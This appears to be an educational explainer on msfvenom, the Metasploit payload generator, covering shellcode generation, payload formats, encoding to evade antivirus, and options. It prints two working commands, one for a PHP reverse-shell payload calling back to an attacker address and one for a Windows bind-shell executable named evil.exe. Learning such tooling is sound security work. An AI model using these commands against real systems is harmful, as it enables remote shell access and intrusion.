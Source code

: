 # The Main Functions of the msfvenom

## The Main Functions of the msfvenom

The sources explain that **msfvenom** is a command-line utility within the Metasploit Framework that allows users to generate shellcode, payloads, and encoders independently of the msfconsole interface. It offers flexibility for security researchers and attackers to create malicious code for various platforms and formats.

**Key functions of msfvenom, as described in the sources, include**:

- **Generating Shellcode:** Msfvenom can generate raw shellcode, which is a small piece of code designed to exploit a vulnerability and execute arbitrary commands on a target system. This shellcode can be used in various attacks, including buffer overflows and code injection.
- Example from the sources:
- msfvenom -p php/reverse\_php -f raw LHOST=1.2.3.100 > myPayload.php
- This command generates raw PHP code for a reverse PHP payload and saves it to a file named "myPayload.php" \[1].
- **Creating Payloads:** Msfvenom can create standalone payload files in various formats, including executable files (.exe for Windows), ELF binaries (for Linux), and Mach-O binaries (for macOS). These payloads can be delivered to target systems through various means, such as email attachments, malicious websites, or USB drives.
- Example from the sources:
- msfvenom -p windows/shell/bind\_tcp RHOST=1.2.3.100 -f exe > evil.exe
- This command creates a Windows executable file named "evil.exe" containing the "shell/bind\_tcp" payload \[2].
- **Encoding Payloads:** Msfvenom provides encoding capabilities to obfuscate payloads and evade detection by security software. It offers various encoders that transform the payload code, making it harder for antivirus programs to identify malicious patterns.
- **Customising Payloads:** Msfvenom allows users to configure various options for the generated payloads, such as the target operating system, architecture, connection type (bind or reverse), and IP address and port for the attacker's listener.
- Example from the sources: The command in the previous example, msfvenom -p windows/shell/bind\_tcp RHOST=1.2.3.100 -f exe > evil.exe also includes the RHOST=1.2.3.100 option, which sets the target IP address for the payload \[2].

**Benefits of Using msfvenom**:

- **Versatility:** Msfvenom supports a wide range of payloads, encoders, and output formats, making it adaptable to different attack scenarios.
- **Ease of Use:** Its command-line interface is relatively straightforward, allowing users to generate and customise malicious code with simple commands.
- **Integration with Metasploit:** Msfvenom seamlessly integrates with other tools in the Metasploit Framework, enabling users to leverage its extensive capabilities for penetration testing and exploit development.

**Overall, msfvenom serves as a powerful tool for creating and manipulating malicious code. Its functions extend beyond simply generating payloads; it empowers users to fine-tune their attacks and evade detection mechanisms, making it a valuable asset for both security professionals and malicious actors.**
